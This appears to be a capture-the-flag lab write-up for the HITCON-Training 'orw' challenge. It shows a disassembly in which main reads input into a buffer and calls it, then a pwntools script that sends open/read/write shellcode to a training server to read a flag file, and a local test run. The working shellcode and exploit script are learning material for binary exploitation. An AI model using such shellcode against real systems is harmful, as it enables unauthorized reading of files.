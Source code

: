 ```nasm
   0x0804855e <+22>:	sub    esp,0xc
   0x08048561 <+25>:	push   0x80486a0
   0x08048566 <+30>:	call   0x8048380 <printf@plt>
   0x0804856b <+35>:	add    esp,0x10
   0x0804856e <+38>:	sub    esp,0x4
   0x08048571 <+41>:	push   0xc8
   0x08048576 <+46>:	push   0x804a060
   0x0804857b <+51>:	push   0x0
   0x0804857d <+53>:	call   0x8048370 <read@plt>
   0x08048582 <+58>:	add    esp,0x10
   0x08048585 <+61>:	mov    eax,0x804a060
   0x0804858a <+66>:	call   eax
   0x0804858c <+68>:	mov    eax,0x0
   0x08048591 <+73>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048594 <+76>:	leave
   0x08048595 <+77>:	lea    esp,[ecx-0x4]
   0x08048598 <+80>:	ret
End of assembler dump.
```

the main function reads 200 bytes of input to ``0x804a060 <shellcode>``
and calls the ``<shellcode>``

orw.py
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

host = "training.pwnable.tw"
port = "11002"

r = remote(host,port)
r.recvuntil(":")
sc = "\xeb\x20\x5b\x31\xc0\xb0\x05\x31\xc9\xcd\x80\x89\xc3\xb0\x03\x89\xe1\xb2\x30\xcd\x80\xb0\x04\xb3\x01\xb2\x30\xcd\x80\x31\xc0\x40\xcd\x80\xe8\xdb\xff\xff\xff/home/orw/flag\x00"
r.sendline(sc)
r.interactive()
```

the python code sends shellcode to remote host but the host seems down.
So I've created a test flag file

/home/junheah/flag
```
this_is_test_flag
```

and tested the shellcode locally

```bash
junheah@ubuntu:~/HITCON-Training-master/LAB/lab2$ python -c 'print "\xeb\x20\x5b\x31\xc0\xb0\x05\x31\xc9\xcd\x80\x89\xc3\xb0\x03\x89\xe1\xb2\x30\xcd\x80\xb0\x04\xb3\x01\xb2\x30\xcd\x80\x31\xc0\x40\xcd\x80\xe8\xdb\xff\xff\xff/home/junheah/flag\x00"'|./orw.bin
Give my your shellcode:this_is_test_flag
��������76��������
```
